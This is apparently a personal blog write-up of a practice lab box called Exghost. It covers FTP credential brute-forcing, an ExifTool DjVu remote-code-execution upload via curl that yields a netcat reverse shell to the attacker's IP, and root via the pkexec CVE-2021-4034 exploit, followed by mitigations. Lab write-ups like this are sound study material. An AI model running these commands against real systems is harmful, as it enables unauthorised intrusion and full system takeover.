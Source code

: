 # **Exghost | PG Practice**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/9cad8129-e6fb-4117-8e8a-cd331b4d7611)

***

## **Reconnaissance**

Running an nmap scan the following ports where found


```
# Nmap 7.94SVN scan initiated Wed May 29 09:02:43 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.235.183
Nmap scan report for 192.168.235.183
Host is up (0.15s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
80/tcp open   http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: Host: 127.0.0.1; OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 29 09:05:07 2024 -- 1 IP address (1 host up) scanned in 144.47 seconds
```


Enumerating FTP I don't have access to login anonymously 



![](https://i.imgur.com/69qqsim.png)


Navigating to the website endpoint we have this 403 forbidden page


![](https://i.imgur.com/zQfRlXj.png)



I was able to fuzz for an `/uploads` directory but turns out to still be 403 Forbidden, all 403 bypass proof failed and i knew this was a dead end.


![](https://i.imgur.com/9BhAqgF.png)


However i felt like bruteforcing FTP might be a quick win for me sooo i decided to use the tool from GitHub which gave me a valid username and password



```bash
git clone https://github.com/rix4uni/FTPBruteForce.git
cd FTPBruteForce
go get -u github.com/jlaffaye/ftp
go run ftp-brute-force-default-credentails.go -ip 192.168.235.183:21
```



![](https://i.imgur.com/2mI2tOi.png)



Upon login in i found a backup file and downloaded it to my own machine


![](https://i.imgur.com/x947LFM.png)


Analyzing the backup file with wireshark and looking for captured HTTP packets i found an `exiftool` version



![](https://i.imgur.com/uJVYXnR.png)



Also found out i was able to upload files within an endpoint called `/exiftest.php`



![](https://i.imgur.com/3gcafFc.png)



Which turns out to be true while using the `curl` utility, The below command uploads a local file or send data that is typically submitted via web forms with the `-F` option and `-v` for verbosity.


Also take note of the parameter "`myFile`" as this was the variable given in the above screenshot


```
curl -F "myFile=@./LOCALFILE" http://192.168.235.183/exiftest.php -v
```


![](https://i.imgur.com/N0Jl768.png)



## **Foothold**



Using this [blog](https://www.exploit-db.com/exploits/50911) i was able to create a malicious `.jpeg` file due to Improper neutralization of user data in the `DjVu` file format in `ExifTool` versions 7.44 and up that allows arbitrary code execution when parsing the malicious image.


```
python3 exploit.py -s 192.168.45.219 4444
```


![](https://i.imgur.com/iGiNvWg.png)


Then uploaded it using `curl` and got a reverse shell with `netcat`


```bash
curl -F "myFile=@./image.jpg" http://192.168.180.183/exiftest.php -v

nc -lvnp 4444
```


![](https://i.imgur.com/onmclmB.png)



## **Privilege Escalation**



Running `linpeas.sh` on the machine i discovered few SUID binaries exploits, This was real pain as i had to go over each of them and see which was the quick win 🤦‍♀️


![](https://i.imgur.com/ML0n3DP.png)





Well, privilege escalation was done via the `pkexec` exploit popularly know as `CVE-2021-4034`


> Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes. It is also possible to use polkit to execute commands with elevated privileges using the command pkexec followed by the command intended to be executed (with root permission).


You can get the python exploit from [here](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py) since most of the `C` exploits don't work 


![](https://i.imgur.com/Y4aZ2Ln.png)




## **Mitigations** 


- Change default credentials of the `FTP` server to strong, unique passwords and username.
- Replace `FTP` with a more secure protocol such as `SFTP` (Secure File Transfer Protocol) or FTPS (FTP Secure).
- Ensure `ExifTool` is updated to the latest version that includes the security patch, better still remove or restrict `ExifTool` Usage
- Update the `Polkit` package or Disable `pkexec` : `sudo chmod 0755 /usr/bin/pkexec`



Have fun xD


## **Status Check** ⚠️


I shouldn't be playing boxes 🤣, i have got exams next week but hell yeah, i really don't wanna be far away from doing this. However i might limit all of this in the coming months, Take of yourselves Fellas :)



![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/a2d7b812-fdd1-450d-8b9a-6690215a8b1c)



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
